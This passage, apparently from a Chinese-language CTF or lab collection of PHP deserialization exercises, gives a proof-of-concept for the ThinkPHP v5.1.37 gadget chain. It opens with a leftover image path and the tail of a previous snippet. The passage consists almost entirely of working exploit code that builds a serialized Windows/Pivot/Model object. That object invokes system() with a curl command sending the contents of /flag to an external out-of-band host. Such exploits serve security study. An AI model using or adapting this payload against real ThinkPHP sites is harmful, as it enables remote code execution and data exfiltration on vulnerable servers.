 ```php
use think\Model;

class Pivot extends Model
{
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));

```

### 反序列化-PHP-009
> thinkphp v5.1.37 反序列化漏洞 POC 2
>
> www.zip 获取源码
```php
<?php
namespace think;
abstract class Model {

    protected $append = [];
    private $relation = [];
    protected $visible = [];
    protected $strict = true;
    private $data = [];
    private $withAttr = [];
    function __construct(){
           $this->visible = array("foo"=>array());
           $this->relation = array("foo"=>"curl http://sxielvzhzqayslxhetklcq64byiulay79.oast.fun -d \"$(cat /flag)\"");
           $this->withAttr = array("foo"=>"system");
    }
}

namespace think\model;
use think\Model;
class Pivot extends Model {

}

namespace think\process\pipes;

use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}





use think\process\pipes;
echo base64_encode(serialize(new Windows()));
```
